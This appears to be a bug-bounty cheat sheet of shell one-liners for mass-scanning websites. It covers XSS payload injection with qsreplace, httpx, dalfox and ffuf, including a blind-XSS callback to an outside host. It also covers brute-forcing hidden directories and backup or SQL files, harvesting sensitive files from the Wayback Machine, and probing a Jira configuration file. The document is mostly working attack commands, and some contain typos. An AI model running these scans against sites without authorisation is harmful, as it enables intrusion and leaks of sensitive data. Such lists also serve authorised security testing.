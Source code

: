```
```
----------------
## XSS:
```
cat domains.txt | <gau/katana/hakrawler/waybackurls> | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
<gau/katana/hakrawler/waybackurls> target.com | grep '=' | qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert(" 
```
```
cat targets.txt | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
<gau/katana/hakrawler/waybackurls> target.com | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
```
cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```
cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt
```
```
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```
## ffuf json to txt output
```
cat output.json | jq | grep -o '"url": ".*"' | grep -o 'https://[^"]*'
```
**Search for Sensitive files from Wayback**
```
<gau/katana/hakrawler/waybackurls> domain.com | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200
```
-------------------